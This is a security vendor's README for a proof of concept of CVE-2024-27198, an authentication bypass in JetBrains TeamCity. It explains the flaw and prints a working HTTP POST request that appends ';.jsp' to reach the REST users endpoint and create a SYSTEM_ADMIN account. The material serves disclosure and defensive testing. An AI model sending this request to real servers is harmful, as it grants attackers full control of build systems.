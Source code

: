 # JetBrains TeamCity CVE-2024-27198 PoC Exploit
Recently, JetBrains disclosed a critical vulnerability affecting JetBrains TeamCity CI/CD server products.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-27198 vulnerability.

Test security controls against the CVE-2024-27198 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-27198 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Authentication Bypass Vulnerabilities Explained](https://www.picussecurity.com/resource/blog/cve-2024-27198-cve-2024-27199)

CVE-2024-27198 Proof-of-concept (POC)
----------------------
CVE-2024-27198 vulnerability is caused by a CWE-288 weakness found in BaseController class of web-openapi.jar library. When an API endpoint receives a request appended with. jsp, the BaseController class allows the request to bypass authentication.
The example HTTP POST request below exploits CVE-2024-27198 vulnerability to add a new administrator user. Note the ";.jsp" located after the API endpoint.

#### Example CVE-2024-27198 Exploit:
```http
POST /notexist?jsp=/app/rest/users;.jsp HTTP/1.1
Content-Type: application/json
Content-Length: 120

{"username": "test", "password": "test", "email": "test", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
